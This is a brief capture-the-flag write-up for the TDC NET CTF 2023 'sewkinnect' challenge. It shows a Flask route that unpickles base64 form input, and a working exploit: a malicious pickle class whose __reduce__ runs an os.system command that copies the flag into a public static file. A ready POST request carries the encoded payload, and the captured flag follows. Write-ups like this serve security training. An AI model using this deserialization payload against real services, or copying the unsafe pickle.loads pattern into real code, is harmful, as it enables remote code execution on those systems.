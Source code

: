 ```yaml
---
layout: post
title:  "TDC NET CTF 2023 - clone2own - sewkinnect"
date:   2023-09-09 16:17:42 +0200
categories: writeups
---
```

# Sewkinnect
`Clone2Own`
In `app.py` there's a function called `calculate()`, the source code looks like this:
```python
@app.route("/calculate", methods=['POST'])
def calculate():
	body_parts = pickle.loads(base64.b64decode(request.form.get("body_parts")))
	point_cloud = pickle.loads(base64.b64decode(request.form.get("point_cloud")))
	calc = calculations.CalculationObject(point_cloud, body_parts)
	calc.calc_joint_angles()
	calc.calc_lengths()
	calc.calc_girths()
	calc.convert_measures_to_inches()
	timestamp = datetime.datetime.now().strftime("%x %X")
	kinect_data[timestamp] = calc.measures
	return "200 OK"
```

Pickling is interesting! We can make an evil pickling object like this:
```python
class Evil(object):
    def __reduce__(self):
        return (os.system, ('cat /flag* > /usr/src/app/static/js/lol.js',))

evil_pickle = pickle.dumps(Evil())
evil_pickle_base64 = base64.b64encode(evil_pickle).decode('utf-8')
```
Such that when we pickle, and reduce is called we'll be able to get remote code execution. We can send the following `POST` request:
```
POST /calculate HTTP/1.1
Host: site.local:5000
Content-Length: 115
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

body_parts=Y3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2ZsYWcqID4gL3Vzci9zcmMvYXBwL3N0YXRpYy9qcy9sb2wuanMnCnAxCnRwMgpScDMKLg==
```
And there's flag!

Flag:
`TDCNET{hv0r_3r_m1n_XB0000000000000000000000000000000000000X}`